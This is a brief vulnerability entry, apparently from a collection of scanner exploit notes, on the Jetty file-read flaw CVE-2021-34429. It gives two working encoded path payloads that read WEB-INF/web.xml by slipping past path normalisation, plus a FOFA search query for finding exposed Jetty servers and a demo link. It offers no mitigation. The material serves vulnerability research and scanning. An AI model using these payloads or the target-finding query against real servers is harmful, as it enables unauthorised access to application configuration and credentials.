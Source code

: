 # Jetty File Read (CVE-2021-34429)

/%u002e/WEB-INF/web.xml and /.%00/WEB-INF/web.xml After normalization and decoding, it will become /./WEB-INF/web.xml.

FOFA **query rule**: [app="Jetty"](https://fofa.so/result?qbase64=YXBwPSJKZXR0eSI%3D)

# Demo

![Jetty_File_Read_CVE_2021_34429.gif](https://github.com/xiaoheihei1107/GobyVuls/blob/master/Jetty/CVE-2021-34429/Jetty_File_Read_CVE_2021_34429.gif?raw=true)
